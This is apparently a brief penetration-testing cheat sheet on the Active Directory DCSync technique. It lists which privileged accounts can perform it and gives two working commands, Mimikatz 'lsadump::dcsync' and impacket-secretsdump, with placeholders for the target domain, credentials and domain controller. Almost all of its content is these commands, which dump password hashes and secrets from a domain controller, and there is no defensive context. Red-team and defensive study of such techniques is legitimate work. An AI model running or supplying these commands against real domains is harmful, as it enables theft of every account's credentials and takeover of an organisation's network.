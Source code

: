 # DC Sync

### Can be performed by Administrators, Domain Admins or Enterprise Admins as well as Domain Controller Machine Accounts

## Tools: Mimikatz , secretsdump

#### 1) Mimikatz

    mimikatz lsadump::dcsync /domain:TARGET_DOMAIN /user:TARGET_DOMAIN\administrator

#### 2) secretsdump

    impacket-secretsdump 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
